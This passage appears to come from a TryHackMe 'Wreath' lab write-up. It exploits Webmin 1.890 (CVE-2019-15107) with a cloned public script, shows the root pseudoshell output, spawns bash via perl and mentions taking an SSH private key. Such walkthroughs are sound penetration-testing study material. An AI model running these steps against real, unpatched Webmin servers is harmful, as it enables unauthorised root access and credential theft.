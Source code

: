 #### config

adding the host to /etc/hosts
10.200.186.200	thomaswreath.thm
 
MiniServ 1.890 (Webmin httpd) appear to be vulnerable to an unauthenticated remote code execution (RCE) exploit - CVE-2019-15107

### Exploitation

Cloning the repository

```bash
git clone https://github.com/MuirlandOracle/CVE-2019-15107
cd CVE-2019-15107 && pip3 install -r requirements.txt
```

```bash
kali㉿kali-[~/thm/wreath/CVE-2019-15107]$ python3 CVE-2019-15107.py 10.200.186.200                                  1 ⨯

        __        __   _               _         ____   ____ _____
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|

                                                @MuirlandOracle


[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.186.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# whoami
root
```

We got a pseudoshell on `10.200.186.200` as root.  The machine have perl preinstalled so we can use it to stabilizing the shell

```bash
$ perl -e "exec '/bin/bash';"
```

Then download ssh priv key to get remote access to the machine.


## Gitserver
